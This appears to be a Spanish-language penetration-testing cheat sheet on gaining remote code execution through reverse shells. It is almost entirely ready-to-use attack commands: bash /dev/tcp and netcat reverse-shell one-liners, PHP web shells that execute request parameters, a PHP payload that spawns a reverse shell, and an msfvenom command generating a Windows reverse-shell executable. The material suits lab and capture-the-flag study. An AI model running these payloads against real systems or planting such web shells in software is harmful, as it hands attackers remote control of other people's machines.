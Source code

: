 # RCE - Reverse Shell

Aquí iremos describiendo las diferentes maneras de crear SHELLs a medida que nos las encontremos.

## LINUX

Diferentes maneras de crear shells en linux.

La manera mas directa de crear una reverse shell en Linux es:

```bash
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
```

Aunque a veces es mejor indicárselo como parámetro:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
```

Otra manera:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.76.112 443 >/tmp/f
```

## PHP

Ejecución de comandos

```php
<?php system($_REQUEST["cmd"]); ?>
```

Otra manera más bonita:

```php
<?php
	if(isset($_REQUEST['cmd'])){
	    echo "<pre>";
	    $cmd = ($_REQUEST['cmd']);
	    system($cmd);
	    echo "</pre>";
	    die;
	}
?>
```
Directamente la consola: 

```php
<?php system("bash -i >& /dev/tcp/192.168.11.160/443 0>&1"); ?>
```

## NETCAT

Con netcat se puede entablar reverse shell:

```bash
nc -e /bin/sh 92.168.11.160 443
```

Ya tambien ponerse a la escucha:

```bash
sudo nc -nlvp 443
```

## MSFVENOM

### Fichero EXE

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
```
